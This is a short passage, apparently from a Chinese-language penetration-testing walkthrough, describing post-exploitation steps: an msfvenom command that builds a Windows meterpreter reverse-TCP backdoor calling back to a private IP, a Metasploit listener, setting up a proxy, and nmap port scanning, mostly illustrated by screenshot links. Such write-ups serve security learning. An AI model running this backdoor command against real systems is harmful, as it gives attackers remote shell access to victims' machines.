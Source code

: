 使用 msf 生成后门。  
msfvenom -p windows/x64/meterpreter/reverse\_tcp lhost= 192.168. 22.129 lport=6666  
\-f exe > shell.exe  
然后使用 msf 开启监听，上传 shell.exe，成功上线。

[![](assets/1698990322-e43159e3252ea5028b73563603d5c047.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231102173402-f50d72e6-7962-1.png)

## 搭建代理

然后设置代理。

[![](assets/1698990322-f5c34d91508ac2986f61dc7adabc8cfb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231102173409-f9ca006a-7962-1.png)

使用 nmap 进行端口探测

[![](assets/1698990322-1437cf43d7d84cd16c65fb2ba07a5e03.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231102173417-fe5b2622-7962-1.png)
